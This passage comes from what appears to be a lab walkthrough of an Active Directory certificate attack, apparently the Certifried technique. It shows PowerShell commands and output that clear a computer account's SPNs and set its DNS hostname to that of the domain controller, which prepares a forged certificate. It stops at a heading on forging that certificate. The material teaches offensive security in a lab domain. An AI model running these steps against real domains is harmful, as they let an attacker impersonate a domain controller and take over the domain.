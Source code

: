 We can see that both the DNS hostname and the SPN attributes are set to match our computer’s name. Let’s try to update the DNS hostname attribute to that of the DC using the Set-ADComputer cmdlet:

```
PS C:\Users\thm>Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
Set-ADComputer : The operation failed because SPN value provided for addition/modification is not unique forest-wide 
At line:1 char:1                                                                                                     
+ Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com                                                           
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                                                           
    + CategoryInfo          : NotSpecified: (THMPC:ADComputer) [Set-ADComputer], ADException                        
    + FullyQualifiedErrorId : ActiveDirectoryServer:8647,Microsoft.ActiveDirectory.Management.Commands.SetADComputer
```

As we can see from the output, Microsoft automatically changes the SPN attribute when we set the DNS hostname. Since an SPN already exists for LUNDC, the command fails. To counter this, let’s first remove our current SPN attribute:

```
PS C:\Users\thm>Set-ADComputer THMPC -ServicePrincipalName @{}
PS C:\Users\thm>
```

Now that we have flushed our Computer AD Object’s SPN, let’s again try to set the DNS hostname attribute to that of the DC:

```
PS C:\Users\thm>Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
PS C:\Users\thm>
```

That is positive. No error this time. Let’s verify that the changes were made:

```
PS C:\Users\thm>Get-ADComputer THMPC -properties dnshostname,serviceprincipalname
DistinguishedName : CN=THMPC,CN=Computers,DC=lunar,DC=eruca,DC=com 
DNSHostName       : LUNDC.lunar.eruca.com                           
Enabled           : True
Name              : THMPC
ObjectClass       : computer
ObjectGUID        : f40260ee-2f74-4fa1-aa4c-f83bcf589c15 
SamAccountName    : THMPC$
SID               : S-1-5-21-3330634377-1326264276-632209373-11218
UserPrincipalName :
```

Perfect! By simply removing our SPNs, Microsoft no longer tries to change those when we change our DNS hostname, meaning we can change it to a legitimate host’s DNS hostname.

### Forging a Malicious Certificate
